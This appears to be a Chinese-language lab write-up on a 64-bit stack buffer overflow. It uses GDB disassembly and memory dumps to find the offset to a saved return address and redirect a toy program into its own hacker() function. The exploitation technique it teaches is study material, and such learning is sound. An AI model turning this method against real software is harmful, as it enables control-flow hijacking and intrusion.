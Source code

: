 # stack flow hacker
## 基础知识点:
64位系统
- 压栈顺序基本为：参数从右到左（不过64位系统参数用寄存器保存），下条指令地址作为返回地址，原调用栈rbp
接着就是被调用函数的rbp位置，rsp-0xxxx给被调用函数栈利用，包括被调用函数局部变量。
- 原理：
要是能够利用栈溢出bug覆盖栈里的返回地址，变成我自己想要执行的code地址。
## 整个实验分成了3步骤,由简入深:
- 修改返回地址eip值,执行函数hancer()
1. 如test.c里的hacker函数；
进入func函数，反汇编代码：
``` asm
   0x00000000004005dd <+0>:	push   %rbp
   0x00000000004005de <+1>:	mov    %rsp,%rbp
   0x00000000004005e1 <+4>:	sub    $0x20,%rsp
   0x00000000004005e5 <+8>:	mov    %rdi,-0x18(%rbp)
=> 0x00000000004005e9 <+12>:	movl   $0x0,-0x10(%rbp)
   0x00000000004005f0 <+19>:	mov    -0x18(%rbp),%rcx
```
 寄存器：
 (gdb) x/10x $rbp
0x7fffffffe500:	0xffffe550	0x00007fff	0x004006b2	0x00000000
0x7fffffffe510:	0x31313131	0x31313131	0x32323232	0x33333333
0x7fffffffe520:	0x34343434	0x35353535
局部变量(gdb) p	&str
$2 = (char (*)[4]) 0x7fffffffe4f0
可见从str地址0x7ffffffe4f0到调用函数下条地址即返回地址0x7ffffffe508总共ox18，也就是24（换台机器可能就不是这个值），所以test.c确定pEIP地址的时候是数组的第24位。
再就是如何确定拷贝多少字节，
查看shellcode的内存情况：
(gdb) p	shellcode
$4 = 0x7fffffffe510 "111111112222333344445555\033\006@"
(gdb) x/10x 0x7fffffffe510
0x7fffffffe510:	0x31313131	0x31313131	0x32323232	0x33333333
0x7fffffffe520:	0x34343434	0x35353535	0x0040061b	0x00000000
0x7fffffffe530:	0x38383838	0x39393939
所以现在是将地址0x7fffffffe510内容复制到0x7fffffffe4f0，如果复制32字节，恰好将从0x7fffffffe4f0到返回地址的内容全部覆盖掉，不会出现覆盖重叠，
可以得到预期的结果，顺利的调到hacker函数。
